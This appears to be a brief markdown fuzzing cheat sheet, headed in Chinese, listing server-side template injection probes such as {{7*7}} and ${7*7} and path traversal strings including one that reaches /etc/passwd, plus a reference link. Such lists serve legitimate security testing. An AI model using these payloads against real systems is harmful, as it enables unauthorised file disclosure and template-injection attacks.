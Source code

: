 # Fuzz

## SSTI

```
{{7*7}}
<%=7*7%>
{%7*7%}
#{7*7}
${7*7}
[[{{7*7}}]]
[[<%=7*7%>]]
[[{%7*7%}]]
[[#{7*7}]]
[[${7*7}]]
```

## 路径穿越

```
../
/../
../../../../../../../../../etc/passwd
```

## 参考资料

https://github.com/EkiXu/ArbitraryFileReadList
